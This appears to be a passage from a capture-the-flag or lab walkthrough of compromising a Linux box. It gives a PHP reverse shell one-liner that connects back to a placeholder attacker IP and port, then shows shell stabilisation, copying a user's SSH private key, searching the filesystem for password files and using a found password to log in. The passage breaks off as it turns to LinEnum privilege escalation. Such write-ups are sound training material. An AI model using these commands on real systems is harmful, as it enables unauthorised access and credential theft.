 We use the following snippet of code on the server cmd line!
```
php -r '$sock=fsockopen("<ip>",<port>);exec("/bin/sh -i <&3 >&3 2>&3");'
```

And, we have shell access now!
![](assets/2024-10-02-14-44-42.png)

Use the following command to stabilize the basic netcat shell!
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Also background the sessions and run the following:
```
^Z (Ctrl + z backgrounds the session)
stty raw -echo; fg
export SHELL=bash
export TERM=xterm
```

It seems that we have access to the .ssh keys of the `pingu` user!
That means we could try to login to his account and see what is accessible to
us! Copy and paste the id_rsa private key to your own computer and try to access
the victim using `ssh -i /path/to/id_rsa user@remote_host`

SSH failed!
I was able to find the public and private keys, but they failed for some reason!

We can use the following command to see what kind of interesting files the
system has:
```
find / -name "*pass*" -type f 2>/dev/null
```

Something stood out!
```
/var/hidden/pass
```
The file above contains the string `pinguapingu`! Let's try it on ssh!


## SSH and LinEnum

We are able to successfully ssh into the target using the password above!
Now, let's see if we can escalate our privileges using LinEnum!

LinEnum is a bash script that searches for possible ways to priv esc. It is incredibly popular due to the sheer amount of possible methods that it checks for, and often times Linenum is one of the first things to try when you get shell access.

Methods to get Linenum on the system
